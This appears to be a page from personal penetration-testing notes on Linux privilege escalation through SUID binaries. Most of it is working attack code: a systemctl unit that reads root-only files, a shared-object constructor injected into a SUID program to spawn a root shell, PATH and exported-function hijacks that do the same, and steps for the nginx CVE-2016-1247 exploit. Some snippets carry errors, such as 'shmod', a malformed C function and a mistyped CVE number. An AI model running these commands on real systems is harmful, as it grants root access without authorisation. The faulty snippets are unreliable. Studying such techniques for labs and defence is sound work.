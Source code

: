 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && shmod +x /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```

#### CVE-201601247
#cve-2016-1247  [Explanation](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html), If certain conditions are met, a user www-data is able to escalate privileges to root. 
[[SUIDs#^14400b|Enum]]
##### Exploit
Assuming enum was done and the conditions are right, download script from [here](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) , and [[Dark Arts/File Transfer/Linux|file transfer]] it to the target, then simply run the script: 

```bash
./nginxed-root.sh /var/log/nginx/error.log

# then you need to wait for the nginx service to be restarted, or it can manually be done by root, ssh as root into server:
invoke-rc.d nginx rotate >/dev/null 2>&1

# obviously if you already have root to force it, this is useless so practically, you will need to sit and wait for nginx to restart for some other reason. 
```

#### Env Variables

^460797

This relies on weird/custom porgrams with suid bit set, there are 2 examples worked out here for two situations
1. Relative path used
2. Absolute path used

Which is used is determined through [[SUIDs|Enum]]
##### Relative Path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash 
# in this example, the output from strings revealed:
# service apache2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case, you can add to your $PATH and set a location you control to the front of your path, and write a program named "service" there so that when the SUID program is run, it calls to your malicious program rather than the real service program since it will check your controlled folder first. Since the calling program is root, that means your program will be run as root.

# so, write a program that spaws a shell then run SUID program

# Prepare malicious program and output to a directory you control
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c

# compile
gcc /tmp/service.c -o /tmp/service

# add your controlled directory to front of $PATH
export PATH=/tmp:$PATH

# run SUID program
/usr/local/bin/suid-env

# now you should have a root shell.
```

##### Absolute path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash
# in this example, the output from strings revealed:
# /usr/sbin/service apach2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case you will create a malicious function and make a symlink to it so that it's picked up by the vulnerable SUID program.

# Create malicious function
# malicious function copies /bin/bash to a controlled directory
# then, malicious function adds suid bit to copy of /bin/bash
# then, malicious function runs the copy of /bin/bash
# since the suid bit was set, it will be a root shell.
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

# set service program to refer to shell function, our malicious function, rather than running the actual program:
export -f /usr/sbin/service

# then just run the vulnerable suid program
/usr/local/bin/suid-env
```